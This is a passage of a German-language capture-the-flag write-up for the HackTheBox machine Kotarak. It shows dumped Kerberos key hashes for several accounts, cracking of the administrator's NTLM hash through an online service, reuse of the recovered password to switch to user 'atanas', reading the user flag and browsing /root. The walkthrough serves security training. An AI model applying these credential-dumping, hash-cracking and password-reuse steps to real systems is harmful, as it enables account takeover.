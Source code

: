 ```shell
WINXP1$:aes128-cts-hmac-sha1-96:0e4c937f9f35576756a6001b0af04ded
WINXP1$:des-cbc-md5:984a40d5f4a815f2
WINXP1$:rc4_hmac:6f5e87fd20d1d8753896f6c9cb316279
WIN2K31$:aes256-cts-hmac-sha1-96:f486b86bda928707e327faf7c752cba5bd1fcb42c3483c404be0424f6a5c9f16
WIN2K31$:aes128-cts-hmac-sha1-96:1aae3545508cfda2725c8f9832a1a734
WIN2K31$:des-cbc-md5:4cbf2ad3c4f75b01
WIN2K31$:rc4_hmac:cdd7a7f43d06b3a91705900a592f3772
WIN7$:aes256-cts-hmac-sha1-96:b9921a50152944b5849c706b584f108f9b93127f259b179afc207d2b46de6f42
WIN7$:aes128-cts-hmac-sha1-96:40207f6ef31d6f50065d2f2ddb61a9e7
WIN7$:des-cbc-md5:89a1673723ad9180
WIN7$:rc4_hmac:24473180acbcc5f7d2731abe05cfa88c
atanas:aes256-cts-hmac-sha1-96:933a05beca1abd1a1a47d70b23122c55de2fedfc855d94d543152239dd840ce2
atanas:aes128-cts-hmac-sha1-96:d1db0c62335c9ae2508ee1d23d6efca4
atanas:des-cbc-md5:6b80e391f113542a
[* Cleaning up...
```

Wir haben nun also den NTLM Hash des Administrator Passwortes!

Diesen können wir nun auf [crackstation](https://crackstation.net/) cracken lassen.

![bild8](https://imgur.com/2E6wDDI.jpg)

```shell
e64fe0f24ba2489c05e64354d74ebd11 = f16tomcat!
```

Das Passwort ist also **f16tomcat**!

Dasselbe Passwort können wir benutzen um uns als **Atanas** ein zu loggen. Glücklich für uns, dass das Passwort wohl mehrfach verwendet wurde.

```shell
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ su - atanas
Password: 
atnas@kotarak-dmz:~$
```

Jetzt haben wir die Berechtigungen um die User Flag auszulesen.

```shell
atanas@kotarak-dmz:~$ cat user.txt 
93#########ZENSIERT#########ce8
```

Wir haben auch ausreichende Berechtigungen für das Root-Verzeichnis!

```shell
atanas@kotarak-dmz:~$ cd /root
atanas@kotarak-dmz:/root$ ls
app.log flag.txt
atanas@kotarak-dmz:/root$ cat flag.txt 
Getting closer! But what you are looking for can't be found here.
atanas@kotarak-dmz:/root$ cat app.log 
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
100.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
```
